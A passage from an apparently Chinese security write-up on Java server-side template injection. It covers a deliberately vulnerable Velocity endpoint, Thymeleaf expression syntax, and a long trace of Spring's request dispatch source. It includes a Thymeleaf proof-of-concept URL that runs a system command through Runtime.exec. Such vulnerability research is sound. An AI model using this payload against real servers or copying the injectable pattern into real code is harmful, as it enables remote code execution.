doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:93, FormContentFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
doFilterInternal:201, CharacterEncodingFilter (org.springframework.web.filter)
doFilter:119, OncePerRequestFilter (org.springframework.web.filter)
internalDoFilter:193, ApplicationFilterChain (org.apache.catalina.core)
doFilter:166, ApplicationFilterChain (org.apache.catalina.core)
invoke:202, StandardWrapperValve (org.apache.catalina.core)
invoke:97, StandardContextValve (org.apache.catalina.core)
invoke:542, AuthenticatorBase (org.apache.catalina.authenticator)
invoke:143, StandardHostValve (org.apache.catalina.core)
invoke:92, ErrorReportValve (org.apache.catalina.valves)
invoke:78, StandardEngineValve (org.apache.catalina.core)
service:343, CoyoteAdapter (org.apache.catalina.connector)
service:374, Http11Processor (org.apache.coyote.http11)
process:65, AbstractProcessorLight (org.apache.coyote)
process:868, AbstractProtocol$ConnectionHandler (org.apache.coyote)
doRun:1590, NioEndpoint$SocketProcessor (org.apache.tomcat.util.net)
run:49, SocketProcessorBase (org.apache.tomcat.util.net)
runWorker:1142, ThreadPoolExecutor (java.util.concurrent)
run:617, ThreadPoolExecutor$Worker (java.util.concurrent)
run:61, TaskThread$WrappingRunnable (org.apache.tomcat.util.threads)
run:745, Thread (java.lang)
```

另一段代码：

```plain
@RequestMapping("/ssti/velocity2")
@ResponseBody
public String velocity2(@RequestParam(defaultValue = "nth347") String username) throws IOException, ParseException, org.apache.velocity.runtime.parser.ParseException {
    String templateString = new String(Files.readAllBytes(Paths.get("/path/to/template.vm")));
    templateString = templateString.replace("<USERNAME>", username);

    StringReader reader = new StringReader(templateString);

    VelocityContext ctx = new VelocityContext();
    ctx.put("name", "Nguyen Nguyen Nguyen");
    ctx.put("phone", "012345678");
    ctx.put("email", "nguyen@vietnam.com");

    StringWriter out = new StringWriter();
    org.apache.velocity.Template template = new org.apache.velocity.Template();

    RuntimeServices runtimeServices = RuntimeSingleton.getRuntimeServices();
    SimpleNode node = runtimeServices.parse(reader, String.valueOf(template));

    template.setRuntimeServices(runtimeServices);
    template.setData(node);
    template.initDocument();

    template.merge(ctx, out);

    return out.toString();

}
```

模板文件template.vm内容：

```plain
Hello World! The first velocity demo.
Name is <USERNAME>.
Project is $project
```

这段代码的主要作用是读取Velocity模板文件，替换模板中的占位符，然后使用给定的上下文对象进行模板渲染，并将渲染结果作为字符串返回  
过程：

-   使用templateString.replace对模板文件里的内容进行替换，这里的替换值可控
-   runtimeServices.parse将模板内容进行解析
-   template.merge(ctx, out);将模板内容进行渲染，这里会调用SimpleNode#render，过程大致和上面一致

### 3.6 参考

[https://www.cnblogs.com/CoLo/p/16717761.html](https://www.cnblogs.com/CoLo/p/16717761.html)  
[https://www.cnblogs.com/nice0e3/p/16218857.html](https://www.cnblogs.com/nice0e3/p/16218857.html)  
[https://anemone.top/vulnresearch-Solr\_Velocity\_injection/](https://anemone.top/vulnresearch-Solr_Velocity_injection/)  
[https://paper.seebug.org/1107/](https://paper.seebug.org/1107/)

## 4\. Thymeleaf

### 4.1 简介

官方文档：  
Thymeleaf is a modern server-side Java template engine for both web and standalone environments, capable of processing HTML, XML, JavaScript, CSS and even plain text.  
The main goal of Thymeleaf is to provide an elegant and highly-maintainable way of creating templates. To achieve this, it builds on the concept of Natural Templates to inject its logic into template files in a way that doesn’t affect the template from being used as a design prototype. This improves communication of design and bridges the gap between design and development teams.  
简单总结：Thymeleaf是适用于Web和独立环境的现代服务器端Java模板引擎，允许处理HTML、XML、TEXT、JAVASCRIPT、CSS、RAW。  
参考：  
[https://www.thymeleaf.org/doc/tutorials/3.1/usingthymeleaf.html#what-is-thymeleaf](https://www.thymeleaf.org/doc/tutorials/3.1/usingthymeleaf.html#what-is-thymeleaf)  
[https://www.docs4dev.com/docs/zh/thymeleaf/3.0/reference/using\_thymeleaf.html#what-is-thymeleaf](https://www.docs4dev.com/docs/zh/thymeleaf/3.0/reference/using_thymeleaf.html#what-is-thymeleaf)

### 4.2 简单使用

**模板引擎**：  
模板引擎对象是org.thymeleaf.ITemplateEngine接口的实现  
Thymeleaf核心是org.thymeleaf.TemplateEngine

```plain
templateEngine = new TemplateEngine();
templateEngine.setTemplateResolver(templateResolver);
```

**片段表达式**：

-   变量表达式：${...}
-   选择变量表达式：\*{...}
-   消息表达：#{...}
-   URL表达式：@{...}
-   片段表达式：~{...}

语法：  
`~{templatename::selector}`表示在`/WEB-INF/templates/`目录下寻找名为`templatename`的模板中定义的`selector`  
`~{templatename}`表示引用整个`templatename`模版文件作为`fragment`  
`~{::selector}` 或 `~{this::selector}`，引用来自同一模版文件名为selector的fragmnt  
**预处理**：  
`__${expression}__`  
预处理是在正常表达式之前完成的表达式的执行，允许修改最终将执行的表达式

### 4.3 简单例子

使用仓库[https://github.com/veracode-research/spring-view-manipulation](https://github.com/veracode-research/spring-view-manipulation)  
注意thymeleaf的依赖

```plain
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-thymeleaf</artifactId>
</dependency>
```

#### 例子1

观察下面控制函数

```plain
@GetMapping("/path")
public String path(@RequestParam String lang) {
    return "user/" + lang + "/welcome"; //template path is tainted
}
```

正确的payload：  
`/path?lang=en`  
POC:  
`/path?lang=__$%7bnew%20java.util.Scanner(T(java.lang.Runtime).getRuntime().exec(%22calc%22).getInputStream()).next()%7d__::.x`

分析：

### 4.4 SpringBoot请求解析

#### 请求路由

分析DispatcherServlet.class的doDispatch函数

```plain
protected void doDispatch(HttpServletRequest request, HttpServletResponse response) throws Exception {
    HttpServletRequest processedRequest = request;
    HandlerExecutionChain mappedHandler = null;
    boolean multipartRequestParsed = false;
    // 获取用于处理异步请求的WebAsyncManager对象
    WebAsyncManager asyncManager = WebAsyncUtils.getAsyncManager(request);

    try {
        try {
            // 视图
            ModelAndView mv = null;
            // 异常
            Exception dispatchException = null;

            try {
                // 检查是否是多部分请求，并对请求进行处理
                processedRequest = this.checkMultipart(request);
                // 如果经过处理的请求对象与原始请求对象不同，说明请求是多部分请求，将multipartRequestParsed标志设置为true
                multipartRequestParsed = processedRequest != request;
                // 获取处理器的执行链
                mappedHandler = this.getHandler(processedRequest);
                // 如果没有找到合适的处理器，调用noHandlerFound方法进行处理，并直接返回
                if (mappedHandler == null) {
                    this.noHandlerFound(processedRequest, response);
                    return;
                }
                // 获取与处理器关联的处理器适配器
                HandlerAdapter ha = this.getHandlerAdapter(mappedHandler.getHandler());
                // 获取请求方法
                String method = request.getMethod();
                boolean isGet = "GET".equals(method);
                if (isGet || "HEAD".equals(method)) {
                    // 获取最近修改情况
                    long lastModified = ha.getLastModified(request, mappedHandler.getHandler());
                    if ((new ServletWebRequest(request, response)).checkNotModified(lastModified) && isGet) {
                        return;
                    }
                }
                // 预处理，执行拦截器
                if (!mappedHandler.applyPreHandle(processedRequest, response)) {
                    return;
                }
                // 调用处理器适配器的handle方法，处理请求并返回ModelAndView对象
                mv = ha.handle(processedRequest, response, mappedHandler.getHandler());
                if (asyncManager.isConcurrentHandlingStarted()) {
                    return;
                }
                // 根据请求和ModelAndView对象设置默认视图名称
                this.applyDefaultViewName(processedRequest, mv);
                // 调用处理器的执行链的applyPostHandle方法执行后置处理
                mappedHandler.applyPostHandle(processedRequest, response, mv);
            } catch (Exception var20) {
                dispatchException = var20;
            } catch (Throwable var21) {
                dispatchException = new NestedServletException("Handler dispatch failed", var21);
            }

            this.processDispatchResult(processedRequest, response, mappedHandler, mv, (Exception)dispatchException);
        } catch (Exception var22) {
            this.triggerAfterCompletion(processedRequest, response, mappedHandler, var22);
        } catch (Throwable var23) {
            this.triggerAfterCompletion(processedRequest, response, mappedHandler, new NestedServletException("Handler processing failed", var23));
        }

    } finally {
        if (asyncManager.isConcurrentHandlingStarted()) {
            if (mappedHandler != null) {
                mappedHandler.applyAfterConcurrentHandlingStarted(processedRequest, response);
            }
        } else if (multipartRequestParsed) {
            this.cleanupMultipart(processedRequest);
        }

    }
}
```

进入getHandler方法

```plain
@Nullable
protected HandlerExecutionChain getHandler(HttpServletRequest request) throws Exception {
    if (this.handlerMappings != null) {
        // 创建一个迭代器，用于遍历处理器映射列表
        Iterator var2 = this.handlerMappings.iterator();

        while(var2.hasNext()) {
            HandlerMapping mapping = (HandlerMapping)var2.next();
            // 调用处理器映射的getHandler方法，传递请求对象，获取处理器的执行链
            HandlerExecutionChain handler = mapping.getHandler(request);
            if (handler != null) {
                return handler;
            }
        }
    }

    return null;
}
```

进入org\\springframework\\web\\servlet\\handler\\AbstractHandlerMapping.class中getHandler方法

```plain
@Nullable
// 根据请求获取handler
public final HandlerExecutionChain getHandler(HttpServletRequest request) throws Exception {
    // 获取处理器对象
    Object handler = this.getHandlerInternal(request);
    if (handler == null) {
        // 获取默认处理器对象
        handler = this.getDefaultHandler();
    }

    if (handler == null) {
        return null;
    } else {
        // 如果处理器对象是字符串类型，说明它是处理器的名称，将其转换为实际的处理器对象
        if (handler instanceof String) {
            String handlerName = (String)handler;
            handler = this.obtainApplicationContext().getBean(handlerName);
        }
        // 将处理器对象和请求对象作为参数，获取处理器的执行链
        HandlerExecutionChain executionChain = this.getHandlerExecutionChain(handler, request);
        if (this.logger.isTraceEnabled()) {
            this.logger.trace("Mapped to " + handler);
        } else if (this.logger.isDebugEnabled() && !request.getDispatcherType().equals(DispatcherType.ASYNC)) {
            this.logger.debug("Mapped to " + executionChain.getHandler());
        }
        // 如果处理器具有CORS配置源或者请求是预检请求
        if (this.hasCorsConfigurationSource(handler) || CorsUtils.isPreFlightRequest(request)) {
            // 获取CORS配置
            CorsConfiguration config = this.corsConfigurationSource != null ? this.corsConfigurationSource.getCorsConfiguration(request) : null;
            // 获取处理器的CORS配置
            CorsConfiguration handlerConfig = this.getCorsConfiguration(handler, request);
            // 合并全局CORS配置和处理器的CORS配置
            config = config != null ? config.combine(handlerConfig) : handlerConfig;
            // 获取CORS处理器的执行链
            executionChain = this.getCorsHandlerExecutionChain(request, executionChain, config);
        }

        return executionChain;
    }
}
```

上面的mapping是RequestMappingInfoHandlerMapping类，进入getHandlerInternal方法

```plain
@Override
protected HandlerMethod getHandlerInternal(HttpServletRequest request) throws Exception {
    request.removeAttribute(PRODUCIBLE_MEDIA_TYPES_ATTRIBUTE);
    try {
        return super.getHandlerInternal(request);
    }
    finally {
        ProducesRequestCondition.clearMediaTypesAttribute(request);
    }
}
```

调用父类即AbstractHandlerMethodMapping类的getHandlerInternal方法

```plain
@Override
protected HandlerMethod getHandlerInternal(HttpServletRequest request) throws Exception {
    // 获取请求的查找路径
    String lookupPath = getUrlPathHelper().getLookupPathForRequest(request);
    request.setAttribute(LOOKUP_PATH, lookupPath);
    this.mappingRegistry.acquireReadLock();
    try {
        // 据查找路径和请求对象查找匹配的处理器方法
        HandlerMethod handlerMethod = lookupHandlerMethod(lookupPath, request);
        // 如果找到了匹配的处理器方法，则调用createWithResolvedBean方法创建一个包含已解析的Bean的HandlerMethod对象，并返回该对象
        return (handlerMethod != null ? handlerMethod.createWithResolvedBean() : null);
    }
    finally {
        this.mappingRegistry.releaseReadLock();
    }
}
```

进入lookupHandlerMethod方法

```plain
@Nullable
protected HandlerMethod lookupHandlerMethod(String lookupPath, HttpServletRequest request) throws Exception {
    // 创建一个空的Match对象列表
    List<Match> matches = new ArrayList<>();
    // 根据查找路径从映射注册表中获取直接路径匹配的映射列表
    List<T> directPathMatches = this.mappingRegistry.getMappingsByUrl(lookupPath);
    if (directPathMatches != null) {
        // 将直接路径匹配的映射列表与请求对象进行匹配，并将匹配结果添加到matches列表中
        addMatchingMappings(directPathMatches, matches, request);
    }
    if (matches.isEmpty()) {
        // 无法直接使用uri进行匹配，有下面三种情况
        // RequestMapping中定义的是PathVariable，如/user/detail/{id}
        // RequestMapping中定义了问号表达式，如/user/?detail
        // RequestMapping中定义了*或**匹配，如/user/detail/**
        // No choice but to go through all mappings...
        addMatchingMappings(this.mappingRegistry.getMappings().keySet(), matches, request);
    }
    // 存在匹配结果
    if (!matches.isEmpty()) {
        Match bestMatch = matches.get(0);
        if (matches.size() > 1) {
            // 生成比较器，对匹配结果进行排序
            Comparator<Match> comparator = new MatchComparator(getMappingComparator(request));
            matches.sort(comparator);
            // 获取匹配程度最高的结果
            bestMatch = matches.get(0);
            if (logger.isTraceEnabled()) {
                logger.trace(matches.size() + " matching mappings: " + matches);
            }
            if (CorsUtils.isPreFlightRequest(request)) {
                return PREFLIGHT_AMBIGUOUS_MATCH;
            }
            // 比较前后两个相似度是否一致
            Match secondBestMatch = matches.get(1);
            if (comparator.compare(bestMatch, secondBestMatch) == 0) {
                Method m1 = bestMatch.handlerMethod.getMethod();
                Method m2 = secondBestMatch.handlerMethod.getMethod();
                String uri = request.getRequestURI();
                throw new IllegalStateException(
                        "Ambiguous handler methods mapped for '" + uri + "': {" + m1 + ", " + m2 + "}");
            }
        }
        request.setAttribute(BEST_MATCHING_HANDLER_ATTRIBUTE, bestMatch.handlerMethod);
        // 对匹配结果的处理
        handleMatch(bestMatch.mapping, lookupPath, request);
        return bestMatch.handlerMethod;
    }
    else {
        return handleNoMatch(this.mappingRegistry.getMappings().keySet(), lookupPath, request);
    }
}
```

进入addMatchingMappings方法

```plain
private void addMatchingMappings(Collection<T> mappings, List<Match> matches, HttpServletRequest request) {
    for (T mapping : mappings) {
        // 将当前映射和请求对象传递给它，以获取匹配的映射
        T match = getMatchingMapping(mapping, request);
        if (match != null) {
            // 创建一个Match对象，将匹配的映射和原始映射添加到matches列表中。Match对象是一个自定义对象，用于存储匹配的映射和对应的处理器方法
            matches.add(new Match(match, this.mappingRegistry.getMappings().get(mapping)));
        }
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173142-cc8aa018-7a2b-1.png)  
lookupHandlerMethod方法执行到最后的结果  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173200-d6e6dd1a-7a2b-1.png)  
getHandlerInternal方法执行到最后  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173218-e19a2154-7a2b-1.png)  
getHandler方法执行到最后  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173236-ec58788e-7a2b-1.png)  
获取到handler后，回到doDispatch函数，执行下面这行代码

```plain
HandlerAdapter ha = getHandlerAdapter(mappedHandler.getHandler());
```

进入getHandlerAdapter方法

```plain
// 根据处理程序的类型选择合适的HandlerAdapter
protected HandlerAdapter getHandlerAdapter(Object handler) throws ServletException {
    if (this.handlerAdapters != null) {
        for (HandlerAdapter adapter : this.handlerAdapters) {
            // 检查是否支持给定的处理程序
            if (adapter.supports(handler)) {
                return adapter;
            }
        }
    }
    throw new ServletException("No adapter for handler [" + handler +
            "]: The DispatcherServlet configuration needs to include a HandlerAdapter that supports this handler");
}
```

**HandlerAdapter的作用是将具体的处理程序（handler）与Spring MVC框架进行适配，以便能够正确处理请求并生成响应。它扮演了一个桥梁的角色，连接了处理程序和框架的其他组件。包括处理程序适配、参数解析与绑定、处理程序执行、异常处理等**  
[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173254-f6fb6486-7a2b-1.png)  
继续返回doDispatch函数，执行下面代码

```plain
if (!mappedHandler.applyPreHandle(processedRequest, response)) {
    return;
}
```

进入applyPreHandle方法

```plain
// 在请求到达处理程序之前执行一系列预处理拦截器的逻辑，并根据拦截器的返回结果来决定是否继续处理该请求
boolean applyPreHandle(HttpServletRequest request, HttpServletResponse response) throws Exception {
    // 获取配置的拦截器数组
    HandlerInterceptor[] interceptors = getInterceptors();
    if (!ObjectUtils.isEmpty(interceptors)) {
        for (int i = 0; i < interceptors.length; i++) {
            HandlerInterceptor interceptor = interceptors[i];
            // 如果preHandle方法返回false，表示拦截器拦截了请求，不允许继续处理
            if (!interceptor.preHandle(request, response, this.handler)) {
                triggerAfterCompletion(request, response, null);
                return false;
            }
            // 如果preHandle方法返回true，表示拦截器允许请求继续处理。同时，将当前拦截器的索引（interceptorIndex）记录下来，以便在请求处理完成后应用后处理拦截器
            this.interceptorIndex = i;
        }
    }
    return true;
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173313-0285c08a-7a2c-1.png)  
回到doDispatch函数，执行下面代码

```plain
mv = ha.handle(processedRequest, response, mappedHandler.getHandler());
```

AbstractHandlerMethodAdapter.java的handle方法

```plain
@Override
@Nullable
public final ModelAndView handle(HttpServletRequest request, HttpServletResponse response, Object handler)
        throws Exception {

    return handleInternal(request, response, (HandlerMethod) handler);
}
```

根据上面的程序可以直到ha是RequestMappingHandlerAdapter对象，进入handleInternal方法

```plain
@Override
protected ModelAndView handleInternal(HttpServletRequest request,
        HttpServletResponse response, HandlerMethod handlerMethod) throws Exception {

    ModelAndView mav;
    // 对请求进行检查（checkRequest），确保请求的有效性
    checkRequest(request);

    // 是否在会话（session）上进行同步操作
    // Execute invokeHandlerMethod in synchronized block if required.
    if (this.synchronizeOnSession) {
        HttpSession session = request.getSession(false);
        if (session != null) {
            Object mutex = WebUtils.getSessionMutex(session);
            synchronized (mutex) {
                mav = invokeHandlerMethod(request, response, handlerMethod);
            }
        }
        else {
            // No HttpSession available -> no mutex necessary
            mav = invokeHandlerMethod(request, response, handlerMethod);
        }
    }
    else {
        // No synchronization on session demanded at all...
        // 这里
        mav = invokeHandlerMethod(request, response, handlerMethod);
    }

    if (!response.containsHeader(HEADER_CACHE_CONTROL)) {
        if (getSessionAttributesHandler(handlerMethod).hasSessionAttributes()) {
            applyCacheSeconds(response, this.cacheSecondsForSessionAttributeHandlers);
        }
        else {
            prepareResponse(response);
        }
    }

    return mav;
}
```

进入invokeHandlerMethod

```plain
// 执行handlerMethod，然后返回ModelAndView对象
@Nullable
protected ModelAndView invokeHandlerMethod(HttpServletRequest request,
        HttpServletResponse response, HandlerMethod handlerMethod) throws Exception {
    // 用于封装请求和响应对象
    ServletWebRequest webRequest = new ServletWebRequest(request, response);
    try {
        // 创建数据绑定工厂和模型工厂，用于处理方法参数的绑定和模型的创建
        WebDataBinderFactory binderFactory = getDataBinderFactory(handlerMethod);
        ModelFactory modelFactory = getModelFactory(handlerMethod, binderFactory);
        // 用于调用处理方法。设置参数解析器、返回值处理器、数据绑定工厂和参数名称发现者等
        ServletInvocableHandlerMethod invocableMethod = createInvocableHandlerMethod(handlerMethod);
        if (this.argumentResolvers != null) {
            invocableMethod.setHandlerMethodArgumentResolvers(this.argumentResolvers);
        }
        if (this.returnValueHandlers != null) {
            invocableMethod.setHandlerMethodReturnValueHandlers(this.returnValueHandlers);
        }
        invocableMethod.setDataBinderFactory(binderFactory);
        invocableMethod.setParameterNameDiscoverer(this.parameterNameDiscoverer);
        // 用于保存模型和视图
        ModelAndViewContainer mavContainer = new ModelAndViewContainer();
        mavContainer.addAllAttributes(RequestContextUtils.getInputFlashMap(request));
        modelFactory.initModel(webRequest, mavContainer, invocableMethod);
        mavContainer.setIgnoreDefaultModelOnRedirect(this.ignoreDefaultModelOnRedirect);
        // 创建异步请求对象 AsyncWebRequest，设置超时时间
        AsyncWebRequest asyncWebRequest = WebAsyncUtils.createAsyncWebRequest(request, response);
        asyncWebRequest.setTimeout(this.asyncRequestTimeout);
        // 获取或创建异步管理器 WebAsyncManager，设置任务执行器、异步请求对象和拦截器
        WebAsyncManager asyncManager = WebAsyncUtils.getAsyncManager(request);
        asyncManager.setTaskExecutor(this.taskExecutor);
        asyncManager.setAsyncWebRequest(asyncWebRequest);
        asyncManager.registerCallableInterceptors(this.callableInterceptors);
        asyncManager.registerDeferredResultInterceptors(this.deferredResultInterceptors);
        // 如果是异步请求，调用startCallableProcessing方法，启动异步处理
        if (asyncManager.hasConcurrentResult()) {
            Object result = asyncManager.getConcurrentResult();
            mavContainer = (ModelAndViewContainer) asyncManager.getConcurrentResultContext()[0];
            asyncManager.clearConcurrentResult();
            LogFormatUtils.traceDebug(logger, traceOn -> {
                String formatted = LogFormatUtils.formatValue(result, !traceOn);
                return "Resume with async result [" + formatted + "]";
            });
            invocableMethod = invocableMethod.wrapConcurrentResult(result);
        }
        // 调用处理方法
        // 这里
        invocableMethod.invokeAndHandle(webRequest, mavContainer);
        if (asyncManager.isConcurrentHandlingStarted()) {
            return null;
        }
        // 如果处理方法返回的是null，或者ModelAndViewContainer中的视图名称为null，则直接返回null
        return getModelAndView(mavContainer, modelFactory, webRequest);
    }
    finally {
        webRequest.requestCompleted();
    }
}
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20231103173334-0f0c1f8e-7a2c-1.png)  
进入invokeAndHandle方法

```plain
public void invokeAndHandle(ServletWebRequest webRequest, ModelAndViewContainer mavContainer,
        Object... providedArgs) throws Exception {
    // 执行处理方法，获取处理方法的返回值
    Object returnValue = invokeForRequest(webRequest, mavContainer, providedArgs);
    setResponseStatus(webRequest);

    if (returnValue == null) {
        if (isRequestNotModified(webRequest) || getResponseStatus() != null || mavContainer.isRequestHandled()) {
            disableContentCachingIfNecessary(webRequest);
            mavContainer.setRequestHandled(true);
            return;
        }
    }
    else if (StringUtils.hasText(getResponseStatusReason())) {
        mavContainer.setRequestHandled(true);
        return;
    }

    mavContainer.setRequestHandled(false);
    Assert.state(this.returnValueHandlers != null, "No return value handlers");
    try {
        this.returnValueHandlers.handleReturnValue(
                returnValue, getReturnValueType(returnValue), mavContainer, webRequest);
    }
    catch (Exception ex) {
        if (logger.isTraceEnabled()) {
            logger.trace(formatErrorForReturnValue(returnValue), ex);
        }
        throw ex;
    }
}
```

进入invokeForRequest方法

```plain
@Nullable
public Object invokeForRequest(NativeWebRequest request, @Nullable ModelAndViewContainer mavContainer, Object... providedArgs) throws Exception {
    Object[] args = this.getMethodArgumentValues(request, mavContainer, providedArgs);
    if (this.logger.isTraceEnabled()) {
        this.logger.trace("Arguments: " + Arrays.toString(args));
    }
    // 这里
    return this.doInvoke(args);
}
```

